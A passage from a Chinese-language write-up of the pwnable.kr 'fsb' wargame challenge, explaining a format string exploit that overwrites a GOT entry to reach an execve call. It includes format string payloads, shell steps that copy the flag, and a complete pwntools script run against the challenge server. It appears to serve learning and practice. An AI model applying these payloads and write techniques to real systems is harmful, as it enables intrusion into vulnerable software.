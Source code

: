 ```
   0x0804869d <+361>:	jne    0x80486cc <fsb+408>
   0x0804869f <+363>:	movl   $0x80488ae,(%esp)
   0x080486a6 <+370>:	call   0x8048410 <puts@plt>
===>   0x080486ab <+375>:	mov    -0x24(%ebp),%eax
   0x080486ae <+378>:	movl   $0x0,0x8(%esp)
   0x080486b6 <+386>:	lea    -0x24(%ebp),%edx
   0x080486b9 <+389>:	mov    %edx,0x4(%esp)
   0x080486bd <+393>:	mov    %eax,(%esp)
   0x080486c0 <+396>:	call   0x8048450 <execve@plt>

```
所以，利用步骤为，先将`read`的GOT表地址写入`argv`中，然后将目标地址写入`read`的GOT表地址指向的内存。pwn!
```
fsb@ubuntu:~$ ./fsb > /dev/null
%134520832d%14$n
%134514347d%20$n

cat flag > /tmp/fsb_flags
chmod 666 /tmp/fsb_flags
ctrl+c
fsb@ubuntu:~$ cat /tmp/fsb_flags
```


另一种利用`$ebp`的办法似乎相对笨重了一些，因为题目中的`alloca`存在，我们无法确定`$old_ebp`位于`printf`的第几个参数，所以还需要leak`$esp`的地址和`$old_ebp`的地址。
如何确定$esp的地址呢？我们可以利用上面发现的`pargv`局部变量指向了参数`argv`。这两个值都保存在栈上而且相对位置固定，重要的是相对`esp`的位置也固定，可以利用偏移量来泄露出。
`pargv`相对于`$esp`的偏移量为0x38，在`printf`中第14个参数，其内容为`argv`的地址，`argv`相对`$esp`的偏移量为0x50。
所以，`printf`中栈上的内容的语句为：
```
%14$x %18$x
```
拿到的结果分别为`argv`地址和`$old_ebp`地址，进而可以得到`$esp`地址。

接下来的步骤可参考上面覆盖判断条件和覆盖某函数的GOT表地址。



```
from pwn import *
shell = ssh("fsb", "pwnable.kr", password="guest", port=2222)
p = shell.run("/home/fsb/fsb")
p.recvuntil("\n")
p.sendline("c")
p.recvuntil("\n")
p.recvuntil("\n")
p.sendline("%134520840c%18$n")
p.recvuntil("\n")
p.recvuntil("\n")
p.send("%18$x %14$x")
addr = p.recvuntil("\n").split(" ")
offset = int(addr[0], 16) - int(addr[1], 16) + 0x50
offset /= 4
p.recvuntil("\n")
p.send("%%134514347c%%%d$n" % offset)
p.recvuntil("\n")
p.recvuntil("\n")
p.interactive()

```
不容易，一个简单问题能分析出这么多。

[1] [Linux下的格式化字符串漏洞利用姿势](http://www.cnblogs.com/Ox9A82/p/5429099.html)
[2] [Fsb - Pwnable.kr](https://werew.tk/article/13/fsb-pwnablekr)
[3] [Writeup: pwnable.kr "echo1" & "fsb"](https://ricterz.me/posts/Writeup%3A%20pwnable.kr%20%22echo1%22%20%26%20%22fsb%22)
